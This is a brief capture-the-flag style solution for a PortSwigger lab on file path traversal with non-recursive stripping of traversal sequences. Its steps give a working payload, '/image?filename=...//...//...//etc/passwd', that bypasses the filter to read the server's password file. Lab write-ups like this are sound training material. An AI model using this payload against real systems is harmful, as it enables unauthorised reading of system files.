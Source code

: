 # File path traversal, traversal sequences stripped non-recursively
- Name: File path traversal, traversal sequences stripped non-recursively
- URL: https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively
- Level: Medium Time: 1 min
- Objective: retrieve the contents of the `/etc/passwd` file.
---------------------------------------------------------------------------------


## Solution
1. Find an image.
2. Edit the Source Path for it to add `...//...//...//` which means the normal `../../../` in a normal envirument
3. Then add the `/etc/passwd` to it like the next: `/image?filename=...//...//...//etc/passwd`